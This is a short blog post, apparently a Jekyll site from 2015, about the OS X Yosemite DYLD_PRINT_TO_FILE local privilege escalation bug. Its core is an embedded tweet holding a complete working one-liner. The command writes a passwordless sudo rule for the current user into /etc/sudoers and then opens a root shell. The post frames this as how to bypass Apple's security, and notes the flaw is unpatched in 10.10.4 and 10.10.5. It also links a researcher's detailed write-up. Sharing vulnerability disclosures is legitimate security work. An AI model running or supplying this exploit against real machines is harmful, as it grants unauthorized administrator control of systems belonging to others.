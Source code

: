 ```yaml
---
layout: post
title: "OS X 10.10 DYLD_PRINT_TO_FILE Local Privilege Escalation Vulnerability"
author:
modified:
comments: true
categories: mac
excerpt: "How to bypass Apple's security and gain administrator-level privileges on an OS X Yosemite Mac using code that fits in a tweet."
tags: [MAC, OS X, Security, exploit]
image:
  url: https://pbs.twimg.com/media/CKqMvpRVEAAzOzO.png:large
  alt: OS X 10.10 DYLD_PRINT_TO_FILE Local Privilege Escalation Vulnerability
  title: OS X 10.10 DYLD_PRINT_TO_FILE Local Privilege Escalation Vulnerability
  feature:
date: 2015-07-24T11:51:22+05:30
---
```



<blockquote class="twitter-tweet" lang="en"><p lang="en" dir="ltr">echo &#39;echo &quot;`whoami` ALL=(ALL) NOPASSWD:ALL&quot; &gt;&amp;3&#39; | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp; sudo su - <a href="http://t.co/V70xYVIERF">pic.twitter.com/V70xYVIERF</a></p>&mdash; Mitesh Shah (@MiteshShah05) <a href="https://twitter.com/MiteshShah05/status/624470642717364230">July 24, 2015</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

* How to bypass Apple's security and gain administrator-level privileges on an OS X Yosemite Mac using code that fits in above tweet.
* At the moment it is unclear if Apple knows about this security problem or not, because while it is already fixed in the first betas of OS X 10.11, it is left unpatched in the current release of OS X 10.10.4 or in the current beta of OS X 10.10.5.
* More Detailed Information about this exploit is found at <a href="https://www.sektioneins.de/en/blog/15-07-07-dyld_print_to_file_lpe.html">Stefan Esser  Website</a>
